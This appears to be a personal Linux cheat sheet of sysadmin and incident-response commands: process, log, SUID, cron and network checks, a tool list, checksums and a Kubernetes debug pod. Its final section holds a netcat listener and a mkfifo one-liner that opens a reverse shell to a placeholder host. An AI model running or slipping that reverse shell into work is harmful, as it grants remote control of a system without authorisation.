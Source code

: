 ...

## **error:25066067:DSO support routines:dlfcn_load:could not load the shared library**

tmp fix: `export OPENSSL_CONF=/dev/null`

`export TERM=xterm-256color`

"eval `ssh-agent` && ssh-add"


## Load snaps profile

`sudo apparmor_parser -r /var/lib/snapd/apparmor/profiles/*`

## Checks

### System
- `ps -ef`
- `top -p PID`
- `uname -a; env; history`
- `systemctl list-unit-files`
- `tail -f /var/log/messages`
- `find / -mtime -7`
- `find / -type f -mmin -60`
- `nmap -sT -v localhost`
- `find /dir -executable -type f`

### Who
`who; w; last`

### Super users
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'`

### SUID / GUID
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 2> /dev/null`
- `find / -type f -perm -02000 2> /dev/null`

### Net status
- `ss -antup; lsof -i`
- `netstat -anp`

### List crons
`crontab -l; ls -la /etc/cron*`

### history

`~/.bash_history`

### Create file

`dd if=/dev/zero of=foobar.txt bs=1M count=<number_of_megabytes>`

### Random string

`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 23 | head -n 1`

## Commands
```shell
strace # Display the system calls and signals of a specific program
lsof # List open files (process)
stat # Display file or file system status
modinfo # Show information about a Linux Kernel module
modprobe # Add and remove modules from the Linux Kernel
lsmod # Show the status of modules in the Linux Kernel
dmesg # Print or control the kernel ring buffer (logs)
watch # Execute a program periodically, showing output fullscreen
xxd # Make a hexdump or do the reverse
readelf # Display information about ELF files
objdump # Display information from object files
strings # Display text strings embedded in binary
exiftool # Show/Remove files metadata
```

### md5sum

```sh
find . -type f ! -name checksums.md5 -exec md5sum {} + > checksums.md5
md5sum -c checksums.md5
```

### pod debug
```sh
kubectl run pod-debug --rm -i --tty --image alpine:latest -- /bin/sh
#apk --update add <package>
```

### -1

`nc -lvp 4444`
```sh
mkfifo /tmp/fifo
sh -i < /tmp/fifo 2>&1 | nc IP_LISTENER 4444 > /tmp/fifo
```
